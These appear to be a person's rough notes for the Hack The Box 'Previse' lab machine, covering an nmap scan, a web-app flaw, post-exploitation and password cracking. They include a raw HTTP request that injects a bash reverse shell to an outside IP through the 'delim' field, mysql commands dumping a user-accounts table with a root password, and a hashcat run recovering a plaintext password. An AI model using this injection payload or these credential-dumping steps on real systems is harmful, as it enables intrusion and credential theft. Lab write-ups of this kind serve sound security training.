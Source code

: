# PREVISE

## Nmap

```{sh}
nmap -sC -sV -p22,80 10.129.95.185
Starting Nmap 7.80 ( https://nmap.org ) at 2023-02-14 21:40 CET
Nmap scan report for 10.129.95.185
Host is up (0.032s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.12 seconds
```

host is running both an ssh server and an apache server. Let's first find vulns in the apache server

# WEB-APP

information we can get before the actual assesment

the site was created by m4lwhere

One strange thing is that when asking for resources we should have not access to, such accoutns, we are acctually given 
the html web page. taking in account that this is a php based web, it means that it executes before redirection, meaning that 
we can just do whatever we want anyway.

mysql is actually up and running (even though it was not in the nmap)
## users 

admin: newguy
z
## Post explotation

Now we have access to the code of all the files in the web server:

discoveries:
we can upload files to the server with no restrictions 
many times the web-page accesses a mysql database 
user-passwords are hashed in the database
The database previse has credentials root:mySQL_p@ssw0rd!:)

POST /logs.php HTTP/1.1
Host: 10.129.95.185
Content-Length: 68
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.129.95.185
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.129.95.185/file_logs.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=nhk0tigq378kme260i2vpisvmv
Connection: close

delim=%3bbash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.101/2020+0>%261'%3b

# Inside the machine 

home:

nothing here except the user flag (unreachable for now) and that the user m4lwhere likes to use vim

/var/www:

there exists files with id 1-6 and 24 25


ideas: there was a database storing user information (although passworld are hashed)

```{sh}
mysql -u root -p'mySQL_p@ssw0rd!:)' -e 'SHOW DATABASES;'

Database
information_schema
mysql
performance_schema
previse
sys

mysql -u root -p'mySQL_p@ssw0rd!:)' -e 'SHOW TABLES;' previse

Tables_in_previse
accounts
files

mysql -u root -p'mySQL_p@ssw0rd!:)' -e 'SELECT * FROM accounts;' previse

id	username	password	created_at
1	m4lwhere	$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.	2021-05-27 18:18:36
2	oriol	$1$🧂llol$vLuN7GB6eroB7YOErHW42.	2023-02-19 15:31:44

```

shell.php



hashcat -m 500 -a 0 '$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.'  ../SecLists/Passwords/Leaked-Databases/rockyou.txt

remember salts go hash:salt independently of the mode 

 hashcat -m 500 -a 0 '$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.'  ../SecLists/Passwords/Leaked-Databases/rockyou.txt --show
$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!

